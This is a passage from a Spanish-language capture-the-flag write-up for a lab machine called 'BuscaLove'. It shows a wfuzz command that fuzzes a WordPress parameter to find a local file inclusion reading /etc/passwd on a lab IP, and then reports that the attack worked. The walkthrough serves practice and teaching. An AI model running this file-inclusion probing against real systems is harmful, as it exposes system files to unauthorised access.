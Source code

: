![6](/assets/img/writeups/BuscaLove/6.png)

#### LFI

- Entonces podemos hacer fuzzing para ver si encontramos algún string para poder realizar un LFI.

`wfuzz -c -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt --hc 404 --hw 115 <http://172.18.0.2/wordpress/index.php?FUZZ=/etc/passwd`>

![9](/assets/img/writeups/BuscaLove/9.png)

- Y consegimos un LFI!

![10](/assets/img/writeups/BuscaLove/10.png)

- Si hacemos un `Ctrl + U` vemos el /etc/passwd de una manera más legible.
